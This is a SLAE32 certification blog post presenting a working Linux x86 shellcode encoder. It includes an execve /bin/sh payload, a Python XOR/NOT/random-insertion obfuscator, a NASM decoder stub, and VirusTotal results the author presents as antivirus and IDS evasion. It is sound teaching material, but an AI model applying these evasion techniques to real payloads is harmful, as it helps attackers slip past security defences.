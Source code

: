 ```yaml
---
layout: single
title: Shellcode Encoder for Linux x86
date: 2019-10-05
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Encoder
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
Well, let we make a recap of what we have done since now, we have build a [bind shell](https://bolonobolo.github.io/SLAE32-1/), a [reverse shell](https://bolonobolo.github.io/SLAE32-2/) and a [egghunter shellcode](https://bolonobolo.github.io/SLAE32-3/). A lots of nice stuff for hackers out there who want to test their skills, but it's a useless effort if we want to test this nice things in a real scenario where we can meet Antivirus, ATP or IDS systems. Fortunately, some techniques comes in our help.
In the SLAE course we have study some of this techniques and we appreciated them so much that we decided to use them all together adding a pinch of chaos.<br>
We started using the classic ```execve-stack``` shellcode
```hex
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
## Implementation
As said the idea is to use the techniques studied to inject chars inside the execve-stack shellcode. The explanation of the techniques is not in the purposes of this post.
If you want to deeply learn how shellcode encoders works you can search for insertion, XOR and NOT encoders. That said let's explain what we would implement here. 
Given that:
- the hexadecimal alphabet have the corrispective decimal range from 1 to 255 values
- the XOR with fixed char results can be avoided xoring the encoded char with the fixed char (A XOR B ) XOR B = A
- the NOT opertaion results can be avoided repeating the NOT operation on the encoded char<br>

Implementation of our encoder works like that:
1. Read each char of the shellcode
2. if the decimal value of the char is less of 128, XOR it with the 0xDD char
3. put a placeholder after the XOR encoded char
4. else NOT the char
5. put a different placeholder after the NOT encoded char
6. put a random char choosed in a range from 1 to 169
7. put the 0xaa char at the end indicates that our shellcode is finished
7. print the encoded shellcode

We wrote a python script to do that

## Encoder
```python
#!/usr/bin/python

# Python Encoder (XOR + NOT + Random)
import random
green = lambda text: '\033[0;32m' + text + '\033[0m'

shellcode = ("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encoded = ""

# The end char is 0xaa
end = "\\xaa"

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

        if x < 128:
                # XOR Encoding with 0xDD
                x = x^0xDD
                # placeholder for XOR is 0xbb
                encoded += '\\xbb'
                encoded += '\\x'
                encoded += '%02x' % x
        else:
                x = ~x
                encoded += '\\xcc'
                encoded += '\\x'
                encoded += '%02x' % (x & 0xff)

        encoded += '\\x%02x' % random.randint(1,169) # 0xaa is 170 in decimal and the others placeholders are > of 170

print green("Shellcode Len: %d" % len(bytearray(shellcode)))
print green("Encoded Shellcode Len: %d" % len(bytearray(encoded)))
encoded = encoded + end
print encoded
nasm = str(encoded).replace("\\x", ",0x")
nasm = nasm[1:]
# end string char is 0xaa
print green("NASM version:")
# end = end.replace("\\x", ",0x")
print nasm
```
running the script we obtain an obfuscated shellcode, much larger that than the original, but hey a small but full visible shellcode has no future.

```bash
root@slae32-lab:# ./encoder_mixer.py 
Encoded shellcode ...
Shellcode Len: 25
Encoded Shellcode Len: 300
\xbb\xec\x73\xcc\x3f\x9d\xbb\x8d\x51\xbb\xb5\x1b\xbb\xb3\x22\xbb\xf2\x79\xbb\xae\x8e\xbb\xb5\x61\xbb\xb5\x3d\xbb\xf2\x6e\xbb\xf2\x9f\xbb\xbf\x10\xbb\xb4\x89\xcc\x76\x2d\xcc\x1c\x2f\xbb\x8d\x91\xcc\x76\x7e\xcc\x1d\x92\xbb\x8e\x80\xcc\x76\x7b\xcc\x1e\xa7\xcc\x4f\x7f\xbb\xd6\x2b\xcc\x32\x24\xcc\x7f\x37\0xaa
NASM version:
0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
``` 
![](/assets/images/SLAE32/assignment_4/encoded_0.png)<br>

Well, now that we have the encoded shell we have to wrote an assembly decoder, the idea is very simple, the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char. So we need basically 3 functions
1. a decoder for the XOR encoded char
2. a decoder for the NOT encoded char
3. a switch that read the placeholder and call the right decoder
When we reach the end (char 0xaa) our shellcode is encoded, loaded in EDI and ready to be called

## Decoder
Let's move the assembly code
```nasm
global _start

section .text
_start:


        jmp short call_decoder


decoder:
        ; the sequence of the chars in shellcode is: placeholder,obfuscated shellcode char,random char
        pop esi
        lea edi, [esi]                  ; load the first placeholder char in edi
        xor eax, eax
        xor ebx, ebx

switch:

        mov bl, byte [esi + eax]        ; load the placeholder in EBX
        cmp bl, 0xaa                    ; compare it with the shellcode end character
        jz shellcode                    ; if whe reached the end jump to the shellcode
        cmp bl, 0xbb                    ; if the placeholder is 0xbb Zero Flag is set
        jz xordecode                    ; if ZF is set jump to XOR decoder
        jmp notdecode                   ; otherwise jump to NOT decoder

xordecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from where we are
        mov byte [edi], bl              ; load it in edi
        xor byte [edi], 0xDD            ; xoring char with 0xdd to obtain the original one
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

notdecode:

        mov bl, byte [esi + eax + 1]    ; load the second char (the good one) from we are
        mov byte [edi], bl              ; load it in edi
        not byte [edi]                  ; denot char
        inc edi                         ; increment edi
        add al, 3                       ; move to the next placeholder char
        jmp short switch                ; loop to decode

call_decoder:

        call decoder
        shellcode: db 0xbb,0xec,0x73,0xcc,0x3f,0x9d,0xbb,0x8d,0x51,0xbb,0xb5,0x1b,0xbb,0xb3,0x22,0xbb,0xf2,0x79,0xbb,0xae,0x8e,0xbb,0xb5,0x61,0xbb,0xb5,0x3d,0xbb,0xf2,0x6e,0xbb,0xf2,0x9f,0xbb,0xbf,0x10,0xbb,0xb4,0x89,0xcc,0x76,0x2d,0xcc,0x1c,0x2f,0xbb,0x8d,0x91,0xcc,0x76,0x7e,0xcc,0x1d,0x92,0xbb,0x8e,0x80,0xcc,0x76,0x7b,0xcc,0x1e,0xa7,0xcc,0x4f,0x7f,0xbb,0xd6,0x2b,0xcc,0x32,0x24,0xcc,0x7f,0x37,0xaa
```
Now we can try it
![](/assets/images/SLAE32/assignment_4/encoder_1.gif)<br>
It works!
Let see what Virustotal thinks about our shellcode 
![](/assets/images/SLAE32/assignment_4/encoded_1.png)<br>
Well 11 AV detected our shellcode, not perfect but we can deceive ATP like FireEye and AV like F-Secure, Sophos and ClamAV. 
![](/assets/images/SLAE32/assignment_4/encoded_2.png)<br>
This is a prove our shellcode isn't encoded at best and the encoder itself can be improved but I think this is a good starting point.<br>
You can find this shellcode published on [Exploit-DB](https://www.exploit-db.com/shellcodes/47461)<br>

###### Update
Removing the word "Shellcode" from the script improve sensibly our power of obfuscation in Virustotal. In fact using this code to compile and execute the shellcode change positevly our results on scan.<br>
![](/assets/images/SLAE32/assignment_4/encoded_3.png)<br>
![](/assets/images/SLAE32/assignment_4/encoded_4.png)<br>
As you can see only MacAfee mark it as malicious.<br>
![](/assets/images/SLAE32/assignment_4/encoded_5.png)<br>
This is not an endpoint. To be sure our shellcode is really obfuscated we need to test it on machines running IDS/ATP agents and/or AV. This is the best way to test our obfuscated shellcode, but is out of this post scope. I really appreciate if someone would test it in one or more of the cited environments, please fell free to contact me in this case. Thank you.<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>


